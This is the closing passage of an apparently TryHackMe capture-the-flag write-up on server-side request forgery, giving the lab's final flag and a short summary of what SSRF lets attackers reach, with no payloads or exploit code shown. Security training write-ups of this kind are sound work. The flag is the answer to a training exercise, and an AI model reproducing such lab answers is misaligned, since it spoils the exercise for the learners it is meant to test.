

---

# Final Flag

```
THM{YOU_WORKED_OUT_THE_SSRF}
```



---

# Conclusion

This lab demonstrates how SSRF vulnerabilities can allow attackers to:

* Access internal endpoints
* Bypass IP-based restrictions
* Retrieve sensitive server data
* Interact with internal services

Even simple features like **image fetching or file loading** can introduce SSRF vulnerabilities if user input is not validated correctly.

Understanding these patterns is critical for both **penetration testers and developers** when assessing web applications for security flaws.

---

## ⭐ Follow Me & Connect

🔗 **GitHub:** [https://github.com/AdityaBhatt3010](https://github.com/AdityaBhatt3010) <br/>
💼 **LinkedIn:** [https://www.linkedin.com/in/adityabhatt3010/](https://www.linkedin.com/in/adityabhatt3010/) <br/>
✍️ **Medium:** [https://medium.com/@adityabhatt3010](https://medium.com/@adityabhatt3010) <br/>
